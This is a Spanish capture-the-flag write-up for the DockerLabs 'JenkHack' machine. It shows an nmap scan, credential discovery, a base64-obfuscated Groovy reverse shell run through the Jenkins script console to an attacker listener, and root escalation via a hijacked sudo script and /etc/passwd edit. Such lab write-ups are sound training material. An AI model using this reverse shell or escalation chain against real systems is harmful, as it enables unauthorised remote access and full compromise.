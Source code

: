 Máquina "JenkHack" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![jenk](./img/jen.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 13:57:51 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 13:57:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http syn-ack ttl 64 Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-01T12:00:45
| Not valid after:  2025-09-01T12:00:45
| MD5:   ca28:f274:9396:ea58:166b:e855:d80a:f8f7
| SHA-1: e8d7:abe6:d118:714a:1b6f:0b76:6811:055c:b16a:1d87
| -----BEGIN CERTIFICATE-----
| MIIDazCCAlOgAwIBAgIUBSmiF+Gc+BiN8WyNFzgeUmymIWgwDQYJKoZIhvcNAQEL
| BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0yNDA5MDExMjAwNDVaFw0yNTA5
| MDExMjAwNDVaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
| HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCbdR8hWd693nt7C0ktew9VEHWerAmkRUNoUf2FJML3
| dew4Nl3Cn8nBCshRmqmrNBplc275t1MdQcsKJKxDPqXyNfNy0tX9DEa4outbJb19
| Y1hzIbfGGyTi7uxphIR46UUOx9vEUZeyoxLVifBHxY962ZwkRGnTMFCsiOJFTg7L
| +1J3V+FW6OLLN5cHhD+GzVfoglOXsKwzsGLNjTlBbqEaVFMnNo83nCCP/ZKMXiXe
| Rsld959G1NZZSV9GEX5s3e4iW9FvWxII1zamUiehkgf5SPJ6rLV5/hxzx3uAJzL7
| Ur1TV2HTqMfsSdG6uFd5WWAgcTxiIRu0liuxJxg08HPhAgMBAAGjUzBRMB0GA1Ud
| DgQWBBRcV7ZdtrWbCXIS+WBD2yRIwWWvADAfBgNVHSMEGDAWgBRcV7ZdtrWbCXIS
| +WBD2yRIwWWvADAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBc
| i803xq4wpjHJ+U/7xCRJB5Jia47VpRB6JeKMpxvRIDHxHkJDngEQ2eu+CsG/+TDP
| s/1/dgYsJJsOHG9xM9rFfmaVM7JPn9iuRlfg93pVn7jRcuuoFUGVGFQUwOCGFX2d
| +qq5Q+kQZZVNGkuNo0u/xhTE2Rr8bS0uOpaYqnfAFW3vVi8bh4/W81gjzTHCE9to
| B7zJSYXqsekAp381jRBUnz2XMjEpl0cVOHn+TwCVlKLUh+ZuP47D3A87iGjErrji
| woSNfGhH5GkXLQIm8kTEm8CgKcyLus9UuDn53mX8PB85LRjfGZ9ZNR56SfhFqCcs
| aKJxfwi0qS+3MP0YOEFZ
|_-----END CERTIFICATE-----
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
8080/tcp open  http     syn-ack ttl 64 Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 13:58:07 2024 -- 1 IP address (1 host up) scanned in 16.34 seconds
```

Como vemos está abierto el puerto `80, 443 y 8080`.

Ahora continuaremos por el navegador al puerto 80:

![80](./img/80.png)

No tiene nada interesante por lo que continuaremos al 8080:

![8080](./img/8080.png)

Tenemos un jenkins.

Si intentamos las credenciales comunes como `admin:admin` o `root:root` no tendremos acceso, por lo que buscaremos algún usuario y contraseña.

Luego de revisar el codigo fuente de la página en el puerto 80, encuentro dos palabras que parecen ser usuarios y al probarlas como usuario y contraseña en el puerto 8080, podemos entrar:

```css
alt="jenkins-admin">
alt="cassandra">
```

`jenkins-admin:cassandra`.

# INTRUSION

Estando dentro del jenkins, iremos a `/script`, esto nos llevará a una script conosole que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

```groovy
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Esto nos enviará una reverse shell por el puerto 443, por lo que antes de ejecutarla escucharemos en ese puerto:

```css
sudo nc -nlvp 443
```

una vez estemos escuchando en ese puerto, ejecutamos el comando en la página y **ganaremos acceso.**

# ESCALADA DE PRIVILEGIOS

### jenkins

Como nos hemos entrado mediante una reverse shell, tendremos que hacer el `tratamiento de la tty`:

```css
script /dev/null -c bash # Lo ejecutamos y luego presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si que no se nos cerrará la conexión y estaremos cómodos.

Si leemos el archivo `/etc/passwd`, veremos un usuario llamado "jenkhack".

Si buscamos algún archivo con ese nombre, encontraremos una carpeta que tiene una nota. Para buscar ejecutamos `find / -name "jenkhack" 2>/dev/null`. Si la leemos vemos esto:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Como vemos la contraseña no está en un formato legible, por lo que iremos a [CyberChef](https://gchq.github.io/CyberChef/), y luego de probar, podemos pasarlo a texto con `base85`:

![chef](./img/chef.png)

Ahora escalamos poniendo `su jenkhack` y la contraseña.

### Jenkhack

Ahora si ejecutamos un `sudo -l`, veremos esto:

```css
Matching Defaults entries for jenkhack on 36d30cf5e4f4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 36d30cf5e4f4:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Pero si probamos a ejecutarlo solo nos muestra un mensaje, lo que significa que no es realmente bash sino un script. Al leerlo podemos ver esto en una parte:

```css
Running command.../opt/bash.sh
```

Por lo que vamos a `/opt/` pero ya hay un archivo llamado así, por lo que lo borramos con `rm bash.sh` y creamos otro con el siguiente contenido:

```css
#!/bin/bash

nano /etc/passwd
```

Esto nos dejará modificar el `/etc/passwd` cuando ejecutemos el script con sudo, y ya nos quedariá borrar la "x" de root y escalar con `su`

![root](./img/root.png)

Gracias por leer.